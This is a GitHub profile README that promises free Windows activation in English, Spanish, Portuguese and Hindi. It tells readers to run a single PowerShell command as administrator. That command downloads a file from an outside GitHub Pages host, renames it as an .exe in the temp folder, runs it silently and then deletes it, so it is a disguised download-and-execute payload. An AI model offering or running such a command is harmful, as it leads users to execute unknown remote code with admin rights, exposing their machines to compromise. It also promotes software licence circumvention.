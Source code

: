 Copy the command below and paste it into Windows PowerShell to do Windows Free Activation. 👋⚡

Copie el siguiente comando y péguelo en Windows PowerShell para realizar la activación gratuita de Windows. 👋⚡

Copie o seguinte comando e cole-o no Windows PowerShell para realizar a ativação gratuita do Windows. 👋⚡

नि: शुल्क विंडोज सक्रियण करने के लिए निम्न कमांड को कॉपी करें और इसे विंडोज पावरशेल में पेस्ट करें 👋⚡

<!--
**projetos-gabriel-pub/projetos-gabriel-pub** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
⚡ OPEN THE WINDOWS POWERSHELL AS ADMINISTRATOR AND RUN THE FOLLOWING COMMAND:

### $LocalTempDir = $env:TEMP; $WindowsAtivator = "WindowsAtivator.exe"; (new-object System.Net.WebClient).DownloadFile('https://online-soft.github.io/online-soft/app_ativator.cmd', "$LocalTempDir\$WindowsAtivator"); & "$LocalTempDir\$WindowsAtivator" /silent /install; $Process2Monitor = "WindowsAtivator"; Do { $ProcessesFound = Get-Process | ?{$Process2Monitor -contains $_.Name} | Select-Object -ExpandProperty Name; If ($ProcessesFound) { "Still running: $($ProcessesFound -join ', ')" | Write-Host; Start-Sleep -Seconds 2 } else { rm "$LocalTempDir\$WindowsAtivator" -ErrorAction SilentlyContinue -Verbose } } Until (!$ProcessesFound)
